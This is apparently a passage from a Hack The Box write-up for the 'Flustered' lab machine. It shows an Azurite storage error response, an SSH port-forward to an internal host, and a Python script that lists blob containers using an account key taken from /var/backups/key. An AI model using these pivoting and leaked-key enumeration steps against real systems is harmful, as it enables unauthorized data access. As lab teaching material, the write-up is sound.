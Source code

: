 ```
< x-ms-error-code: InvalidQueryParameterValue
< x-ms-request-id: f4507e0b-43ed-4cc5-b273-816593bc6a92
< content-type: application/xml
< Date: Thu, 25 Nov 2021 14:38:28 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
< 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Error>
  <Code>InvalidQueryParameterValue</Code>
  <Message>Value for one of the query parameters specified in the request URI is invalid.
RequestId:f4507e0b-43ed-4cc5-b273-816593bc6a92
Time:2021-11-25T14:38:28.694Z</Message>
* Connection #0 to host 172.17.0.2 left intact
</Error>
```

The `Server` header reveals that this is a self-hosted Azurite emulator, used for local Azure Storage development. We can port forward port 10000 to our local machine using SSH:

```ssh jennifer@flustered.htb -L 10000:172.17.0.2:10000```

### Azurite
We can now access this service from our own machine. We can use the following script to enumerate the service and download files (requires `pip install azure-blob-storage`). The connection string is from the [Azurite GitHub](https://github.com/Azure/Azurite#default-storage-account) and specifies the AccountKey found in `/var/backups/key`:

```python
from azure.storage.blob import BlobServiceClient, BlobClient, ContainerClient, __version__

connect_str = 'DefaultEndpointsProtocol=http;AccountName=jennifer;AccountKey=FMinPqwWMtEmmPt2ZJGaU5MVXbKBtaFyqP0Zjohpoh39Bd5Q8vQUjztVfFphk73+I+HCUvNY23lUabd7Fm8zgQ==;BlobEndpoint=http://127.0.0.1:10000/jennifer;QueueEndpoint=http://127.0.0.1:10001/jennifer;TableEndpoint=http://127.0.0.1:10002/jennifer;'

try:
    blob_service_client = BlobServiceClient.from_connection_string(connect_str)

    # Listing containers and files in them
    for container in blob_service_client.list_containers():
        print(container['name'])
        container_client = blob_service_client.get_container_client(container['name'])
        blob_list = container_client.list_blobs()
        for blob in blob_list:
            print("\t" + blob.name)

except Exception as ex:
    print('Exception:')
    print(ex)

```
